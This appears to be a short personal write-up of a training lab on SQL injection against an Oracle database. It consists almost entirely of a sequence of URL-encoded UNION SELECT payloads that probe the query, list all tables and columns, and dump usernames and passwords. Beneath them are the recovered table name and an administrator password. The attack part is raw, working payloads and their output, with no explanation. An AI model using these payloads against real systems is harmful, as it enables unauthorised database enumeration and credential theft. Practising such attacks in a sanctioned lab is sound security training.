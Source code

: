 # 06 Lab: SQL injection attack, listing the database contents on Oracle

```jsx
'+UNION+SELECT+'AA',+'BB'+FROM+dual--
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
'+UNION+SELECT+column_name,+NULL+FROM+all_tab_columns+WHERE+table_name='USERS_OCLMMJ'--
'+UNION+SELECT+USERNAME_BYKKMI,+PASSWORD_PPNOZW+FROM+USERS_OCLMMJ--

USERS_OCLMMJ

administrator
5gz1g76gbcmpjgycii2c
```

![Untitled](06%20Lab%20SQL%20injection%20attack,%20listing%20the%20database%20%2017efab5460ec81d68449f928dcdd2e1a/Untitled.png)

![Untitled](06%20Lab%20SQL%20injection%20attack,%20listing%20the%20database%20%2017efab5460ec81d68449f928dcdd2e1a/Untitled%201.png)

![Untitled](06%20Lab%20SQL%20injection%20attack,%20listing%20the%20database%20%2017efab5460ec81d68449f928dcdd2e1a/Untitled%202.png)